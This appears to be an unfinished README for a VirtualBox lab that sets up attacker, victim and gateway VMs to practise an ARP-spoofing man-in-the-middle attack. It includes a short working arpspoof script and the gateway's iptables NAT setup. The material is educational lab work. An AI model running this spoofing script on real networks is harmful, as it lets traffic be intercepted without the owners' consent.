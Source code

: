 

# Environment setup

Configure the VMs with the following specifications, either by downloading the ISOs or the OVF files.

|   Role   |      OS      | CPU | RAM | Network Interfaces | IP Address  |   User  |  Password |
|:--------:|:------------:|:---:|:---:|:------------------:|:-----------:|:-------:|:---------:|
| Gateway  | [Ubuntu 18.04](http://ubuntu.c3sl.ufpr.br/releases/18.04.3/ubuntu-18.04.3-live-server-amd64.iso) |  1  | 1GB | 1 Host-Only, 1 NAT | 10.0.0.1/24 | user    | password  |
| Victim   | [Windows 10](https://az792536.vo.msecnd.net/vms/VMBuild_20190311/VirtualBox/MSEdge/MSEdge.Win10.VirtualBox.zip)   |  1  | 2GB | 1 Host-Only | 10.0.0.2/24 | IE User | Passw0rd! |
| Attacker | [Kali 2.0](https://cdimage.kali.org/kali-2019.3/kali-linux-2019.3-amd64.iso)     |  2  | 4GB | 1 Host-Only | 10.0.0.3/24 | root    | toor      |


If you are creating the environment downloading the ISOs, you need to Create a Host Only network interface to be used by all VMs. Go to the main menu, select `File > Host Network Manager`, then you should see an empty white box with "Host-Only Networks". Click the create button. A new Host-only network will be created and added to the list, you can now change the network adapter in you VMs to use the one you just created. For the Gateway VM, you'll also need to add an NAT network interface.


## Configuring the Attacker

```bash
#!/bin/bash
# arpspoof_attack.sh
# 

INTERFACE=eth0
MY_ADDRESS=10.0.0.3
VICTIM_ADDRESS=10.0.0.2
GATEWAY_ADDRESS=10.0.0.1

echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i $INTERFACE -t $VICTIM_ADDRESS $GATEWAY_ADDRESS &
arpspoof -i $INTERFACE -t $GATEWAY_ADDRESS $VICTIM_ADDRESS 
```


## Configuring the Gateway


Check all the network interface connected to your VM:
```sh
ifconfig -a

```

Install the `ifupdown` tool to configure the adition network interface:
```sh
apt update
apt install ifupdown
```

Edit /etc/network/interfaces with the following content:
```
iface inet enp0s8 inet static
	address 10.0.0.1
	netmask 255.255.255.0
```
>> Change the `enp0s8` accordingly to the output from the `ifconfig -a` command.


Bring the interface up and running with the following command:
```sh
ifup enp0s8
```

For this environment we are considering the following interfaces

* `enp0s3`: NAT (Internet/external)
* `enp0s8`: Host-Only (Local/internal)


Enable packet forwarding:
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
Allow every traffic that comes through local interface to go out to the internet interface
```sh
iptables -A FORWARD -i enp0s8 -o enp0s3 -j ACCEPT 
```

Allow every traffic that comes through internet interface to come in to the local interface
```sh
iptables -A FORWARD -i enp0s3 -o enp0s8 -j ACCEPT -m state --state ESTABLISHED,RELATED 
```

Change the source IP address for the outgoing packets
```sh
iptables -t nat -A POSTROUTING -o enp0s3 -j MASQUERADE 
```
>> This will make the hosts address be the gateway address to the internet


Ping the other hosts (Required by VirtualBox)
```sh
ping 10.0.0.2 -c 1
ping 10.0.0.3 -c 1
```



This script configures all the previous commands. 
```bash
#!/bin/bash
# configure_gateway.sh
# 

LOCAL_IFACE=enp0s8
EXTERNAL_IFACE=enp0s3
GATEWAY_ADDRESS=10.0.0.1
HOST_ADDRESSES='10.0.0.2 10.0.0.3'

apt update && apt install -y ifupdown 

cat <<EOF > /etc/network/interfaces
iface $LOCAL_IFACE inet static
	address $GATEWAY_ADDRESS
	netmask 255.255.255.0
EOF

ifup $LOCAL_IFACE

echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -A FORWARD -i $LOCAL_IFACE -o $EXTERNAL_IFACE -j ACCEPT 
iptables -A FORWARD -i $EXTERNAL_IFACE -o $LOCAL_IFACE -j ACCEPT -m state --state ESTABLISHED,RELATED 
iptables -t nat -A POSTROUTING -o $EXTERNAL_IFACE -j MASQUERADE 


for ADDRESS in $HOST_ADDRESSES; do
  ping $ADDRESS -c 1
done
```

WIP
